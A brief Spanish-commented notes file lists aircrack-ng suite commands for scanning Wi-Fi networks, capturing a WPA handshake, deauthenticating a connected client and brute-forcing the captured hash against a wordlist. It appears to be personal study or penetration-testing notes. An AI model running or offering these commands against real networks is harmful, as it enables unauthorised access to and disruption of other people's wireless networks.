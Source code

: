 #Metodo para escanear redes con la tarjeta de red
sudo airodump-ng wlan0 - escanear
#Metodo para capturar un hash
sudo airodump-ng -c {canal} -w {nombre archivo} --bssid {mac de red} {interface} - escaneo especifico
#Metodo para desautenticar a un cliente de su red
sudo aireplay-ng -0 {cantidad peticion} -a {macservidor} -c {macliente} {interface}
#Metodo apra saber si una clave esta en un diccionario
cat {diccionario} | grep {nombre_clave}
#Metodo de fuerza bruta con aircrack
sudo aircrack-ng -w /home/andres/diccionarios/librito.txt  -b {bssid_router} wifi.cap 
